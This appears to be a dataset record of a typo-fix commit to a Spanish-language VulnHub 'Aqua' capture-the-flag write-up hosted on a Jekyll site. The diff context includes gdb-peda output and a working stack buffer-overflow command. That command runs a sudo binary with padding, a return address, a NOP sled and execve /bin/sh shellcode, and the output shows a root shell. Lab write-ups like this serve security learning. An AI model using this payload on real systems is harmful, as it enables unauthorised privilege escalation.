

Before and after one commit to henryp911/gg-new.github.io, a Jekyll site: the page vulnhub/aqua/index.html, which Jekyll copies as it is, in a window 1280 px wide and 900 px high, scrolled down 11911 px. Shown: the part 154-615 px from the top of the window, without its empty margins (283-996 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update index.html

```diff
--- a/vulnhub/aqua/index.html
+++ b/vulnhub/aqua/index.html
@@ -514,7 +514,7 @@ Breakpoint 1, 0x08048626 in getname ()
 </span><span class="kd">gdb-peda$</span>
 </code></pre></div></div>
 
-<div><p>Y al continual nos dice que se ejecuta el programa /bin/dash, significa que todo es correcto</p></div>
+<div><p>Y al continuar nos dice que se ejecuta el programa /bin/dash, significa que todo es correcto</p></div>
 <div class="language-python highlighter-rouge"><div class="highlight"><pre class="highlight">
 <code><span class="kd">gdb-peda$ </span><span class="p">c
 Continuing.
@@ -526,7 +526,7 @@ Cannot access memory at address 0x8048626
 </span><span class="kd">gdb-peda$</span>
 </code></pre></div></div>
 
-<div><p>Finalmente lo ejecutamos el binario con el payload fuera de gdb y conseguimos la shell como root</p></div>
+<div><p>Finalmente ejecutamos el binario con el payload fuera de gdb y conseguimos la shell como root</p></div>
 <div class="language-python highlighter-rouge"><div class="highlight"><pre class="highlight">
 <code><span class="s2">aqua@aqua</span><span class="p">:</span><span class="na">~</span><span class="p">$ sudo /root/quotes $(python -c 'print(("A"*44)+("\x80\xf3\xff\xbf")+("\x90"*16)+("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"))')
 Hi AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��������������������1�Ph//shh/bin��PS��
```
